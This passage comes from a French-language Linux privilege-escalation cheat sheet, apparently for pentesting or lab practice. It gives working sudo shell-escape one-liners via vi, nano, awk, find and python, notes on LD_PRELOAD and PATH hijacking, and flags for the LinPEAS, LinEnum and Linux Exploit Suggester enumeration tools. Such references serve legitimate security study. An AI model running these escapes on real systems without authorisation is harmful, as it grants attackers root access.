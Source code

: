 ### Sudo exploitation
| Commande autorisée | Technique |
|-------------------|-----------|
| `sudo vi /path/file` | `:!sh` dans vi |
| `sudo nano /path/file` | `Ctrl+R Ctrl+X` puis `reset; sh 1>&0 2>&0` |
| `sudo awk` | `sudo awk 'BEGIN {system("/bin/sh")}'` |
| `sudo find` | `sudo find . -exec /bin/sh \; -quit` |
| `sudo python` | `sudo python -c 'import os; os.system("/bin/sh")'` |

### Variables d'environnement
| Variable | Exploitation |
|----------|--------------|
| `LD_PRELOAD` | Injection de bibliothèque dynamique |
| `LD_LIBRARY_PATH` | Détournement de bibliothèque |
| `PATH` | Hijacking de commandes |

---

## 🔍 8. Outils d'énumération automatisés

### LinPEAS
| Commande | Description |
|----------|-------------|
| `./linpeas.sh` | Scan complet automatisé |
| `./linpeas.sh -a` | Scan avec tous les checks |
| `./linpeas.sh -s` | Scan rapide |
| `./linpeas.sh -P` | Affichage avec couleurs |

### LinEnum
| Commande | Description |
|----------|-------------|
| `./LinEnum.sh` | Énumération complète |
| `./LinEnum.sh -t` | Mode thorough |
| `./LinEnum.sh -k keyword` | Recherche de mots-clés |

### Linux Exploit Suggester
| Commande | Description |
|----------|-------------|
| `./linux-exploit-suggester.sh` | Suggestion d'exploits kernel |
| `./linux-exploit-suggester-2.pl` | Version Perl |

---
